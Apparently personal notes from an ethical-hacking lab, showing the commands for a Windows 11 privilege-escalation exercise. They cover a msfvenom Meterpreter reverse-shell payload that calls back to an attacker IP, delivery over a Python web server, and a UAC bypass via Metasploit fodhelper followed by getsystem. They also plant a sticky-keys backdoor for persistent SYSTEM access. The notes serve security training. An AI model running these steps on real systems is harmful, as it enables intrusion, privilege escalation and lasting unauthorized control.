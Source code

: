 ## Task 3: Perform Buffer Overflow Attack to Gain Access to a Remote System
- skipped 
# Lab 2: Perform Privilege Escalation to Gain Higher Privileges

## Task 1: Escalate Privileges by Bypassing UAC and Exploiting Sticky Keys
1. create payload 
	- ``msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe. ``
2. payload delivery or Copy the payload into the shared folder
	- use python server 
	- ``  python3 -m http.server 70"
3. use listener Metasploit
	- ``set payload windows/meterpreter/reverse_tcp``
	- ``set LHOST ``
	- ``set LPORT ``
4. on windows machine 
	- use browser and download payload 
	-  on ``http://10.10.1.13:port``
	- run payload 
	- The Meterpreter session has successfully been opened
	- type `` sysinfo`` to get system information
	-   type ``getuid`` to display current user ID.
	- Type ``background`` and press **Enter**, to background the current session.
5. BypassUAC
	- `` use exploit/windows/local/bypassuac_fodhelper``
	- `set session 1``
	- ``set TARGET 0``
	- ``exploit``
	-  The BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine.
	- ``getsystem -t 1``
	- ``getuid``
	- The meterpreter session is now running with system privileges.
6.  maintain persistence by exploiting sticky_keys 
	 - we will use sticky_keys module present in Metasploit to exploit the sticky keys feature in **Windows 11**.
	 - ``use post/windows/manage/sticky_keys``
	- ``set session 2``
	- ``exploit``
	-  Martin is a user account without any admin privileges, lock the system and from the lock screen press **Shift** key **5** times, this will open a command prompt on the lock screen with System privileges instead of sticky keys error window.

- other modules that cat be use for  
	- ``use exploit/windows/local/bypassuac_ vwr ``
	- ``use exploit/windows/local/bypassuac_comhijack``
	- ``use exploit/windows/local/bypassuac_fodhelper
	- ``use exploit/windows/local/bypassuac_injection``
	- ``use exploit/windows/local/bypassuac``
